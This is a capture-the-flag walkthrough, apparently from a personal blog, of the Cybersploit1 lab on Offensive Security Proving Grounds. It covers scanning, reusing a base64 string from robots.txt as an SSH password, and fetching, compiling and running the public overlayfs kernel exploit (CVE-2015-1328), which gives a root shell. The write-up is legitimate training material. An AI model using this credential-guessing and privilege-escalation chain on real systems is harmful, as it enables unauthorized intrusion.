





# Cybersploit1
**Date:** June 1st 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.216.92`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.216.92 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 2333]
/robots.txt           (Status: 200) [Size: 53]
/hacker               (Status: 200) [Size: 3757743]
```

<br>

## Website Digging

Visiting the main page:



Looking at the page source code shows us a username in a comment:



Checking out **robots.txt** shows a base64 encoded string:



Decoding that string:

`echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d`

```
<REDACTED>
```

Visiting that YouTube page doesn't provide anything for the CTF but it does look like it's probably the channel for the maker of this challenge.

Looking at **/hacker** just shows us the image on the home page.

<br>

## System Access

Not having much else to go on I try the decoded base64 string as a password (which looks more like a flag than a password) and it works for an ssh in as itsskv:

```
itsskv@192.168.216.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

<br>

## System Enumeration

Looking in our home directory shows **local.txt** which is our first flag on this CTF:

`wc -c local.txt`

```
33 local.txt
```

I check `sudo -l` but we aren't allowed to run anything as root on this user.

Checking for **SUID** and **SGID** files doesn't show us anything interesting. Nor does looking at all files with **capabilities**.

I look at **cronjobs** and there aren't any on the system.

We have standard groups when checking `id`:

```
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
```

Other users with bash login shells:

```
root:x:0:0:root:/root:/bin/bash
cybersploit:x:1000:1000:cybersploit,,,:/home/cybersploit:/bin/bash
itsskv:x:1001:1001:,,,:/home/itsskv:/bin/bash
```

One note is looking at **/etc/passwd** shows that all accounts other than those 3 above are set to **/bin/sh** instead of **nologin** or **false** like normal. Strange.

Checking in **/opt** doesn't have anything listed.

The web directory **/var/www** only has 3 files which we've already seen previously through the website.

Taking a look at **/etc/issues** shows us that it's:

```
Ubuntu 12.04.5 LTS \n \l
```

Doing a quick **google search** for "ubuntu 12.04.5 exploit" shows us this as the top result:



It says Ubuntu 12.04 systems with kernal versions before June 6th 2015 are vulnerable to this exploit. I check `uname -a` and it should work on this system:

```
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
```

On my home system I use **searchsploit** to move the code over to my current directory, host a simple python webserver, and wget the file over to the target system:

`searchsploit -m 37292`

`python3 -m http.server 80`

`wget 192.168.49.216/37292.c`

Compiling the code on that target system:

`gcc 37292.c -o exploit`

```
-rwxrwxr-x  1 itsskv  itsskv   12016 Jun  1 20:49 exploit
```

<br>

## Root

Now that we have it compiled lets run and see if it works. According to the exploit-db page you just run it and don't need to provide any arguments:

`./exploit`

```
itsskv@cybersploit-CTF:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# hostname
cybersploit-CTF
```

Well, that was definitely an easy exploit to use and we have root!

Looking in **/root** we find our final flag in **proof.txt**:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a comment in the **webpage source code** that listed a username
- Decoding a **base64** string that was found in **robots.txt**
- Using the username and decoded string to login via **ssh**
- Noticing that the system is a very old version at **Ubuntu 12.04.5** and finding it's vulnerable to **CVE-2015-1328** aka **overlayfs**
- Using the **overlayfs** exploit to escalate our privilages to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
